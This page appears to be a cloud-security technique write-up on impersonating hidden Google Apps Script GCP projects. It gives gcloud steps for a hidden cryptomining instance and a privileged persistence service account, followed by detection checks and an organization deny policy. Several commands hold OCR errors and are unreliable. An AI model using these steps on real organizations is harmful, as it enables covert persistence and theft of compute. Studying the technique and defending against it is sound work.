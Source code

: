```yaml
---
author_name: Taylor Smith
title: Apps Script project impersonation / Google Apps Script persistence
description: Google Workspace Apps Script projects create hidden GCP projects (sys-<...>) that can be impersonated by attackers. This technique enables stealthy persistence (service accounts, hidden compute, cryptomining) and can bypass common console inspections.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [Ghost in the Script: Impersonating Google App Script projects for stealthy persistence](https://www.exaforce.com/blogs/ghost-in-the-script) by [Bleon Proko](https://www.linkedin.com/in/bleon-proko/) and [Jakub Pavlik](https://www.linkedin.com/in/pavlikjakub/).
</div>


Google Apps Script is a low-code platform that allows users to automate and integrate Google Workspace applications. When an Apps Script is deployed, it automatically creates a corresponding Google Cloud Platform (GCP) Project within the user's organization. These projects are often hidden from the standard GCP console view, creating an opportunity for attackers to achieve stealthy persistence.

## The Vulnerability

Apps Script projects are created with a specific ID format: `sys-<26 numbers>`. These projects reside in a `system-gsuite/apps-script` folder and are not visible in the organization's project list in the GCP console, though they are visible via the `gcloud` CLI.

An attacker with the `resourcemanager.projects.create` permission can create a standard GCP project that mimics this naming convention. By placing this impersonated project inside the `apps-script` folder, it becomes hidden from the console view, just like a legitimate Apps Script project. This allows the attacker to host malicious resources undetected.

## Attack Vector 1: Malicious Resources

A common abuse is to deploy a high-performance instance for cryptomining within a hidden project. This requires linking the project to a billing account and enabling the necessary APIs.

1.  **Create a hidden project** with a name mimicking a legitimate function:
    ```bash
    gcloud projects create 'sys-22222222222222222222222222' --name "Exaforce Google Sheet Function" --folder-936086877446
    ```
2.  **Link the project to a billing account:**
    ```bash
    gcloud beta billing projects link sys-22222222222222222222222222-btlling-account xxxxxx
    ```
3.  **Create a large compute instance** for cryptomining:
    ```bash
    gcloud compute instances create app-script-instance project=sys-22222222222222222222222222 --zone=us-central1-a --machine-type=n2-standard-16 --image-family=debian-11 --image-project=deblan-cloud --boot-disk-size=200GB
    ```

## Attack Vector 2: Stealthy Persistence

Attackers can use a hidden project to create a service account and grant it highly privileged roles for long-term persistence. This identity is hard to discover because it is associated with a project that appears to be managed by Google.

1.  **Create a service account** inside the hidden project:
    ```bash
    gcloud iam service-accounts create persistence-service-account --display-name "Persistence Service Account" --project sys-22222222222222222222222222
    ```
2.  **Bind the service account** to a privileged role at the organization level:
    ```bash
    gcloud organizations add-iam-policy-binding xxxxxxx --member="serviceAccount:persistence-service-account@sys-222222222222.iam.gserviceaccount.com" --role="organizations/xxxxx/roles/AppScriptPolicy"
    ```

Notably, IAM service accounts are free resources, so this persistence mechanism can be established even without linking the project to a billing account, bypassing some detection methods.

-----

## Detection and Mitigation

### Detection Methods

1.  **Billing Information**: A legitimate Apps Script project will have `billingEnabled: false`. An impersonated project used for cryptomining will be linked to a billing account (`billingEnabled: true`). You can check this with the command: `acloud beta billing projects describe <project-id>`.

2.  **Enabled APIs**: A real Apps Script project has no services enabled by default. An attacker's manually created project will have a list of default APIs enabled. Compare a real vs. fake project with: `gcloud services list --enabled-project <project-id>`.

3.  **Audit Logs**: Query the `CreateProject` logs for the `apps-script` folder. A legitimate project's `principalEmail` will be `appsdev-apps-dev-script-auth@system.gserviceaccount.com`. An impersonated project will show the attacker's user email as the creator.

### Mitigation Strategy

You can prevent this attack by implementing a custom organization policy that denies the creation of projects with an ID matching the Apps Script format.

```yaml
name: >-

organizations/012345678912/customConstraints/custom.denyAppsScriptProjectImpersonation
resource_types: cloudresourcemanager.googleapis.com/Project
method_types:
  - CREATE
  - UPDATE
condition: 'resource.projectId.matches(''sys-[0-9]{26}'')'
action_type: DENY
display_name: Deny Apps Script Project Impersonation
description: ''
```

**Note:** This policy is effective but will also block the creation of legitimate Apps Script projects for all users in the organization.

